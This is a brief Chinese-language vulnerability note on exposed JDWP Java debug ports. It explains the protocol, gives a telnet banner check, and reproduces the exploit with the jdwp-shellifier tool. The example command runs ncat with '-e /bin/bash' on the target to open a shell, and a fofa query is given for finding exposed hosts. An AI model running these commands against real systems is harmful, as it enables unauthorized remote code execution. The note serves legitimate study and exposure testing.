 ### 原理介绍：

JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

### 简单检测方法：  
```
telnet ip port
```
查看回显，如果出现“JDWP-Handshake”，则证明漏洞存在。如下图  
[image](./pic/1.jpg)  

### 漏洞复现：
借助工具：https://github.com/IOActive/jdwp-shellifier  
用法：
```
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
```
### 目标搜索
fofa上搜索目标
```
banner="jdwp"
```
试了几个都没有漏洞，暂不批量检测了
